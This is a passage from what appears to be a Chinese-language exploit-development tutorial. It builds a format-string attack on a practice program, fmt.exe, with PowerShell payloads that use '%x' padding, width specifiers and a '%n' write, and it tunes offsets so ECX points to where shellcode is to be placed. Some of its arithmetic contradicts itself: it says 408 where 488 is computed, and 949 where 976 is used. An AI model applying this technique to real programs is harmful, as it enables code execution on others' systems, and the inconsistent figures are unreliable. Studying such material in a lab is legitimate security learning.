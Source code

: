 现在 ECX 指向 0019f940，但我们需要 ECX 指向 0019f758。

![](img/45da2498606f22a58219bcb98ddc0009.png)

让我们找出不同之处，再试一次。

```
0x0019f940– 0x0019f758 = 488
```

通过在最后一个格式字符串中添加 408，我们应该接近我们的目标了。让我们试一试。

```
425430 + 488 = 425918$Buffer = ‘A’ * 80
$fmt = ‘%x’ * 51 + ‘%.425430x’ * 3 + ‘%.425918x’ +’%n’
$ret = ‘B’ * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

现在 ECX 指向 19fb28。让我们再次找到不同之处。

![](img/435d45dc568e2af1a4572d8ca16192e7.png)

```
0x19fb28 – 0x19f758 = 976
```

通过减去最后一个格式字符串的差值，我们应该让 ECX 指向我们需要的确切地址。

```
425918 -  949 = 424942$Buffer = 'A' * 80
$fmt = '%x' * 51 + '%.425430x' * 3 + '%.424942x' +'%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

现在，ECX 指向 19f758，这是我们将要放置外壳代码的位置。

![](img/db80979d2afc40372989c4fb56005b39.png)
